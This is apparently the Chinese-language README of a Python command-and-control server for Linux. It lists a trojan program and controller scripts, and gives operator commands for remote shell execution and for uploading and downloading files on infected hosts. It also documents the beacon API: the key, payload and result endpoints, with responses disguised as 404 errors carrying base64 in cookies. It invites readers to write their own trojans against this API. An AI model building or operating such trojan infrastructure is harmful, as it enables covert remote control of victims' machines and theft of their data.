 # README
# **介绍**
这是一个由 Python3.7.3 编写的轻量级，便捷式的针对Linux的 C2 服务器程序，它采用 flask 框架来实现 web 数据交互，使用 socketserver 框架实现文件数据上传和下载，目前功能较少，主要是开发者没时间了，要去混口饭吃了，如果后期有时间我会添加一些新功能，也欢迎大家 fork 然后修改出自己想要的版本

# **文件结构**
trojan.py    木马程序，如果要使用要修改里面的IP地址和端口

client.py    控制端程序，依赖 lib/basecli.py 文件，配置文件使用的是 settings.py

server.py    服务器程序，依赖 lib/baseser.py 文件，配置文件使用的是 settings.py

fileserver.py    文件上传下载服务器程序

start.py    可以运行此脚本来快速搭建服务

# **注意**
1、在运行时一定要配置好 settings.py 文件，否则可能会出现莫名奇妙的问题

2、运行之后，fileserver.py 要占用 60000 号端口来提供服务，请保证此端口正常

3、此程序目前主要支持上线 Linux 的机器，如果是 Windows 有可能会出现一些问题

4、此程序目前只支持 系统命令执行(如果没有回显的命令可能会报执行错误，可以自行忽略)、文件上传、文件下载

5、运行之后如果出现问题可以使用 ps -aux | grep server.py 来查看其进程号然后 kill -9 进程号 来杀掉进程

6、正常运行后，应该可以看到 server.py 和 fileserver.py 在运行

7、下载的文件默认存放在 downfile 文件夹里面

8、本程序使用了 API 的形式来交互数据，所以使用者可以根据提示，自己用自己喜欢的编程语言来开发木马和控制端



# **控制端操作**
```Plain Text
        查看当前上线主机

            getlive

        对上线主机进行操作

            set 主机ID 操作[shell,time,uploadfile,downfile,del] 参数

            例：
              set 主机ID shell 你要执行的系统命令
              set 主机ID time 你要设定的时间(如果时间小于零则默认设置为10)
              set 主机ID uploadfile 要上传的文件路径 目标路径
              set 主机ID downfile 目标文件路径
              set 主机ID del(删除主机)

        查看帮助
            help

        要退出请按两次 ctrl + c
```


# 木马开发流程
该C2服务器是采用 flask 加 socketserver 框架来做的，flask 用来做 API 接口，socketserver 用来做文件传输的中间代理

API 接口的数据接收和分发主要是通过 json 数据格式

### **注意:木马要上线成功就要执行一次 getlive**
![image](images/2RnvJLFVErZx4D_BeWVikN056ySxpPOvdvdag_SUd8I.png)

# **获取秘钥**
**请求地址：http://你的服务器IP地址:端口/getkeys**

**响应头**

Cookie:base64密文，即秘钥

响应状态码：404

![image](images/jum_mqMV5EG_KikwNdWFECxfthsF1jD33gCVw0xmQQo.png)

解密后的 base64 密文格式为 json 序列化的字典数据

```json
{"key": "对应的随机md5值"}
```


# **请求 payload **
**请求地址：http://你的服务器IP地址:端口/getpayloads**

**请求头**

Cookie:cid=获取到的随机秘钥

**响应头**

Cookie:base64密文

响应状态码：404

![image](images/D_BmptwKQuQp-wT14LO4-XPqoHLoDM7F_NMQP-CGHHE.png)

解密后的 base64 密文格式为 json 序列化的字典数据

```json
{"data": {"sleeptime": "", "cdm": "getlive"}}
```
 sleeptime 为沉睡时间，如客户端不设定为空，否则为 int 类型

cdm 为要执行的命令，为 str 类型

**如果没有任务要执行，则 payload 为**

```json
{"data": False}
```
**如果客户端控制退出，则 payload 为**

```json
{"data": "exit"}
```


# **返回执行结果**
**请求地址：http://你的服务器IP地址:端口/addrst**

**请求头**

Cookie:cid=随机秘钥

**请求体**

主体信息

```json
{"localuser": "pkcn", "sys_info": "Linux-5.10.0-amd64-desktop-x86_64-with-uos-20-plum", "local_ip": "10.99.94.163", "cdm": "getlive", "data": "命令执行结果，如果是getlive则为空"}
```
以下的 base64 密文内容就是上面的内容

```json
{'data': "b'eyJsb2NhbHVzZXIiOiAicGtjbiIsICJzeXNfaW5mbyI6ICJMaW51eC01LjEwLjAtYW1kNjQtZGVza3RvcC14ODZfNjQtd2l0aC11b3MtMjAtcGx1bSIsICJsb2NhbF9pcCI6ICIxMC45OS45NC4xNjMiLCAiY2RtIjogImdldGxpdmUiLCAiZGF0YSI6ICIifQ=='"}
```
**响应头**

状态码：404

![image](images/6WZW4Bms_Rjx6KO_Ij83PusoNdNaxeWIECTRJ48P2Ow.png)



# **关于文件操作**
### **详情请看实例木马，里面有详细的说明**